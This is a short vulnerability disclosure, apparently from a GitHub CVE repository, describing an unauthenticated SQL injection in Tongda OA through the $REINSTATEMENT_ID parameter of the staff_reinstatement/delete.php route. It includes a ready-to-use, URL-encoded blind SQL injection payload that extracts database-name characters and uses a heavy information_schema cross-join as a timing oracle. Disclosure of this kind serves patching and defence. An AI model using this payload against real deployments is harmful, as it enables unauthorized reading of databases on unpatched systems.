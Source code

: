 Unauthorized SQL injection vulnerability exists in Tongda OA

version:Less than v11.10 or v2017

Route: general/hr/manage/staff_reinstatement/delete.php

There is an injected parameter: $REINSTATEMENT_ID

The code is neat here, concatenating the parameters directly into the SQL statement when the $REINSTATEMENT_ID is not empty, and there is a bypass because of the parenthesis closure.
![WPS图片(1)](https://github.com/ggg48966/cve/assets/51871401/a2a32380-ef1b-4a10-9557-b41609eb10cb)

poc
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![WPS图片(2)](https://github.com/ggg48966/cve/assets/51871401/abf12677-f426-40a0-b454-be60888c7f20)
